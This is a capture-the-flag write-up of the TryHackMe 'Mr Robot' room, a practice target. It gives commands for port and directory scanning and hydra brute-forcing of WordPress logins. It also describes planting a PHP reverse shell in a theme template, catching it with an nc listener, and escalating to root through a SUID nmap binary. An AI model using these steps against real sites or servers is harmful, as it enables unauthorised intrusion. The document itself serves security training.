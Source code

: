 # ====================

# Mr Robot CTF WRITE-UP

[https://tryhackme.com/room/lookup](https://tryhackme.com/room/mrrobot)

# ====================

![](Images/1.jpeg)

# 1. Enumeration

Add `Machine_IP robot.thm` to /etc/hosts file.

```shell
sudo vim /etc/hosts
```

We will use ***NMAP*** to enumerate open ports on the target machine (we can also use ***Rustscan***).

```shell
sudo nmap -sS -T4 -vv -p- robot.thm
```

We get two open ports: `HTTP` and `HTTPS` and one closed port `SSH`. So we won't be able to log in via SSH even if we get some credentials.

![](Images/2.png)

Now we will check for port version, common scripts and OS information:

```shell
sudo nmap -sV -sC -O -T4 -vv -p 22,80,443 robot.thm
```

![](Images/3.png)

Nothing much interesting here, it is Linux OS. So let's enumerate folder structure on web server with GoBuster:

```shell
gobuster dir -u http://robot.thm -w /usr/share/wordlists/dirb/common.txt -t 60
```

We get some interesting information here. First, we can see that there is **robot.txt** file which we should check and we can obviously see that this is a WordPress site because of the `/wp-*` folders:

![](Images/4.png)

First we will check for **robots.txt** file and we can see some interesting files:

![](Images/5.png)

File **key-1-of-3** is the answer to the first question:

```
curl http://robot.thm/key-1-of-3.txt
```

But file **fsocity.dic** seems like some kind of wordlist... Let's save it to our attack machine...

```
curl http://robot.thm/fsocity.dic -o fsocity.dic
```

When we check for number of lines of this file, we get almost a million lines...

```
wc -l fsocity.dic
```

If we check the file, we can see there is a lot of duplicates, so we can make the wordlist smaller by removing all these duplicates...

```
cat fsocity.dic | sort | uniq > fsocity2.dic
```

Now we have around 11 000 lines, which is much better... Let's try to log in to the site via `http://robot.thm/wp-login.php`.

We get a log in form and if we enter some random credentials, we get an **error message**:

![](Images/6.png)

Let's try to enumerate the usernames with **hydra** using the wordlist `fsocity2.dic`. Intercept the request with BURP to get the POST data:

![](Images/7.png)

```
hydra -L fsocity2.dic -p x robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:Invalid username." -t 64 -f
```

We got the username... Of course... It's **elliot**! :D

![](Images/8.png)

Now let's back to log in page, enter **elliot** as username and random password. We get different error message!

![](Images/9.png)

Let try to brute force the password for user **elliot** using the same wordlist `fsocity2.dic`:

```
hydra -l elliot -P fsocity2.dic robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:The password" -t 64 -f
```

And YES!!! We got the password!!! :)

![](Images/10.png)

Use the credentials to log in to the WordPress site and we are in:

![](Images/11.png)

WordPress is based on php, so we need a php reverse shell to get to the system... The easyest way is to find some php page that we can call and execute our payload. We can use `404.php` page which is called when the page can't be found on the server (Appearance -> Editor -> 404 Template).

We can use the famous php reverse shell **pentestmonkey**:

![](Images/12.png)

Unpack it:

```
tar -xzvf file_name.tar.gz
```

Copy the whole content of the .php file and paste it in the 404.php page on the web site. Put the IP of your attacking machine and set PORT to 1234, or whatever you want.

![](Images/13.png)

Start the nc listener on your attacking machine:

```
nc -lvnp 1234
```

Save changes by pressing **Update file** button. Request some page on the server that doesn't exists `http://robot.thn/adfdsf` and YES! We have reverse shell! Stabilize the shell with python method:

![](Images/14.png)

List the content of `/home` directory and you will see **robot** user. When we list that folder we can see there are two files: **key-2-of-3.txt** and **password.raw-md5**. We don't have permissions to read **key** file, but we can read the **password** file. It's MD5 hash of the password, so we have to crack it with **JOHN** or **Hashcat**. It is very slow process on the attack box, so we will use site https://crackstation.net.

![](Images/15.png)

We already saw in the NMAP results that SSH port is closed, so we can't connect via SSH, but we can change user on our existing shell:

![](Images/16.png)

Now, we can `cat` key-2-of-3.txt file and get the second answer:

![](Images/17.png)

At this point we should download **linpeas** on the target machine and check for privilege escalation vectors, but the answer is to check for SUID bit:

```
find / -type f -perm -u=s -ls 2>/dev/null
```

In the results we can see the NMAP which we can check at gtfobins website...

![](Images/18.png)

We can run NMAP in interactive mod and get the shell:

![](Images/19.png)

And YES, we are root!!! :)

![](Images/20.png)

Read the last `key-3-of-3.txt` file from `/root` directory and you get the third answer!

![](Images/21.png)

# =========

# ***Stay safe and see ya in the next write-up!***
